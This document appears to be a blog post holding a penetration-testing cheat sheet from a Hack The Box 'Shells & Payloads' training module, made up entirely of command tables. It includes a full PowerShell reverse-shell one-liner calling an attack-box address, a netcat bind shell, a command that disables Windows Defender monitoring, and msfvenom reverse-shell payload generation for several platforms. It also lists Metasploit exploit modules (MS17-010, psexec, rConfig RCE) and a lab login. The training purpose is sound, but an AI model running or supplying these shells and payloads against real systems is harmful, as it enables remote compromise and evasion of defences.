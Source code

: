 ```yaml
---
layout:     post
title:      "Shells & Payloads"
subtitle:   "Shells & Payloads"
date:       2024-03-01
author:     "k1r4"
header-img: "img/footprinting.webp"
catalog:    true
tags:
    - shells
    - payloads
---
```


## Shells & Payloads


|**Command**|**Description**|
|-|-|
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use. |
| `sudo nc -lvnp <port #>` | Starts a `netcat` listener on a specified port. |
| `nc -nv <ip address of computer with listener started><port being listened on>` | Connects to a netcat listener at the specified IP address and port. |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell `(/bin/bash)` the specified IPaddress and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on. |
| `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` | `Powershell` one-liner used to connect back to a listener that has been started on an attack box. |
| `Set-MpPreference -DisableRealtimeMonitoring $true` | Powershell command using to disable real time monitoring in `Windows Defender`. |

|**Command**|**Description**|
|-|-|
| `use exploit/windows/smb/psexec ` | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`. |
| `shell` | Command used in a meterpreter shell session to drop into a `system shell`. |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf` | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`. |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe ` | MSFvenom command used to generate a Windows- based reverse shell stageless payload. |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho` | MSFvenom command used to generate a MacOS- based reverse shell payload. |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp` | MSFvenom command used to generate a ASP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp ` | MSFvenom command used to generate a JSP web reverse shell payload. |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war` | MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload. |
| `use auxiliary/scanner/smb/smb_ms17_010` | Metasploit exploit module used to check if a host is vulnerable to `ms17_010`. |
| `use exploit/windows/smb/ms17_010_psexec` | Metasploit exploit module used to gain a reverse shell session on a Windows- based system that is vulnerable to ms17_010. |
| `use exploit/linux/http/rconfig_vendors_auth_file_upload_rce` | Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`. |

|**Command**|**Description**|
|-|-|
| `python -c 'import pty; pty.spawn("/bin/sh")'` | Python command used to spawn an `interactive shell` on a linux-based system. |
| `/bin/sh -i` | Spawns an interactive shell on a linux-based system. |
| `perl —e 'exec "/bin/sh";'` | Uses `perl` to spawn an interactive shell on a linux-based system. |
| `ruby: exec "/bin/sh"` | Uses `ruby` to spawn an interactive shell on a linux-based system. |
| `Lua: os.execute('/bin/sh')` | Uses `Lua` to spawn an interactive shell on a linux-based system. |


----

